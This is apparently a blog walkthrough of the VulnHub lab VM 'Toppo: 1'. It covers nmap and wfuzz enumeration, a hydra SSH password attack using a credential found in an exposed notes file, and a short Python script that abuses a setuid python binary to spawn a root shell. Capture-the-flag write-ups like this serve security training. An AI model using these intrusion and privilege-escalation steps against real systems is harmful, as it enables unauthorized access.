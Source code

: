 ```yaml
---
layout: post
date: 2018-08-17 19:04:17 +0000
title: "Toppo: 1 Walkthrough"
subtitle: "Hakaishin Toppo?"
category: Walkthrough
tags: [VulnHub, Toppo]
comments: true
image:
  feature: toppo-1-walkthrough.jpg
  credit: Thomas-Suisse / Pixabay
  creditlink: https://pixabay.com/en/bomb-background-pattern-explode-1185726/
---
```


This post documents the complete walkthrough of Toppo: 1, a boot2root [VM][1] created by [Hadi Mene][2], and hosted at [VulnHub][3]. If you are uncomfortable with spoilers, please stop reading now.
{: .notice}

<!--more-->

### Background

There's no backstory for this VM. All we know is that it isn't hard to pwn and doesn't require advanced exploitation. The one "Toppo" I know is a character from Dragon Ball Super–God of Destruction candidate from Universe 11 :laughing:

### Information Gathering

Let’s start with a `nmap` scan to establish the available services in the host.

```
# nmap -n -v -Pn -p- -A --reason -oN nmap.txt 192.168.30.130
...
PORT      STATE SERVICE REASON         VERSION
22/tcp    open  ssh     syn-ack ttl 64 OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
| ssh-hostkey:
|   1024 ec:61:97:9f:4d:cb:75:99:59:d4:c1:c4:d4:3e:d9:dc (DSA)
|   2048 89:99:c4:54:9a:18:66:f7:cd:8e:ab:b6:aa:31:2e:c6 (RSA)
|   256 60:be:dd:8f:1a:d7:a3:f3:fe:21:cc:2f:11:30:7b:0d (ECDSA)
|_  256 39:d9:79:26:60:3d:6c:a2:1e:8b:19:71:c0:e2:5e:5f (ED25519)
80/tcp    open  http    syn-ack ttl 64 Apache httpd 2.4.10 ((Debian))
| http-methods:
|_  Supported Methods: POST OPTIONS GET HEAD
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Clean Blog - Start Bootstrap Theme
111/tcp   open  rpcbind syn-ack ttl 64 2-4 (RPC #100000)
| rpcinfo:
|   program version   port/proto  service
|   100000  2,3,4        111/tcp  rpcbind
|   100000  2,3,4        111/udp  rpcbind
|   100024  1          33198/udp  status
|_  100024  1          58751/tcp  status
58751/tcp open  status  syn-ack ttl 64 1 (RPC #100024)
```

`nmap` finds `22/tcp`, `80/tcp`, `111/tcp`, and `58751/tcp` open. As usual, I'll go for the web one first. Here's how it looks like.

![Clean Blog](/assets/images/posts/toppo-1-walkthrough/460c48a6.png)

### Directory/File Enumeration

I like `wfuzz` a lot. When it's combined with a quality wordlist like the ones in SecLists, you can uncover directories and files that will point you in the next direction.

```
# wfuzz -w /usr/share/seclists/Discovery/Web-Content/common.txt -t 20 --hc 404 http://192.168.30.130/FUZZ
********************************************************
* Wfuzz 2.2.11 - The Web Fuzzer                        *
********************************************************

Target: http://192.168.30.130/FUZZ
Total requests: 4593

==================================================================
ID	Response   Lines      Word         Chars          Payload    
==================================================================

000011:  C=403     11 L	      32 W	    298 Ch	  ".htaccess"
000010:  C=403     11 L	      32 W	    293 Ch	  ".hta"
000012:  C=403     11 L	      32 W	    298 Ch	  ".htpasswd"
000190:  C=200     21 L	     172 W	   1093 Ch	  "LICENSE"
000437:  C=301      9 L	      28 W	    316 Ch	  "admin"
001232:  C=301      9 L	      28 W	    314 Ch	  "css"
002073:  C=301      9 L	      28 W	    314 Ch	  "img"
002094:  C=200    183 L	     465 W	   6437 Ch	  "index.html"
002250:  C=301      9 L	      28 W	    313 Ch	  "js"
002463:  C=301      9 L	      28 W	    315 Ch	  "mail"
002497:  C=301      9 L	      28 W	    317 Ch	  "manual"
003597:  C=403     11 L	      32 W	    302 Ch	  "server-status"
004261:  C=301      9 L	      28 W	    317 Ch	  "vendor"
```

Following the hint in `LICENSE`, it's not long before I found Blackrock Digital's GitHub [repository](https://github.com/BlackrockDigital/startbootstrap-clean-blog) for this BootStrap theme in Google.

![LICENSE](/assets/images/posts/toppo-1-walkthrough/727f2d5a.png)

Everything was identical to those listed in the repository except for `/admin`.

![/admin](/assets/images/posts/toppo-1-walkthrough/4bc414d0.png)

![/admin/notes.txt](/assets/images/posts/toppo-1-walkthrough/532aac6c.png)

### Hail Hydra

I also like `hydra` a lot. It's always my go-to weapon of choice for online password cracking and user validation. Let's give it a shot.

```
# hydra -L usernames.txt -p 12345ted123 -f -e nsr -o hydra.txt -t 4 ssh://192.168.30.130)
[22][ssh] host: 192.168.30.130   login: ted   password: 12345ted123
```

What's in `usernames.txt`, you ask?

```
# cat usernames.txt
root
admin
test
guest
info
adm
mysql
user
administrator
oracle
ftp
toppo
ted
```

I added `toppo` and `ted` for obvious reasons—`toppo` is the name of the VM while `ted` appears in `/admin/notes.txt`.

### Low-Privilege Shell

Now that I have the password of `ted`, let's log in to his SSH account.

![ted](/assets/images/posts/toppo-1-walkthrough/5603610a.png)

### Privilege Escalation

Again, using basic enumeration, I soon found the ticket to privilege escalation.

![python2.7](/assets/images/posts/toppo-1-walkthrough/7558c05c.png)

Since I have a `python` that's `setuid` to `root`, I can write a Python script like this.

<div class="filename"><span>makemeroot.py</span></div>

```python
import os

os.setuid(0)
os.setgid(0)
os.system("/bin/bash")
```

![root](/assets/images/posts/toppo-1-walkthrough/b08a64c9.png)

### Where's the Flag (WTF)

With `root`, getting the flag is trivial.

![Flag](/assets/images/posts/toppo-1-walkthrough/af5a0e51.png)

:dancer:

[1]: https://www.vulnhub.com/entry/toppo-1,245/
[2]: https://twitter.com/@h4d3sw0rm
[3]: https://www.vulnhub.com/
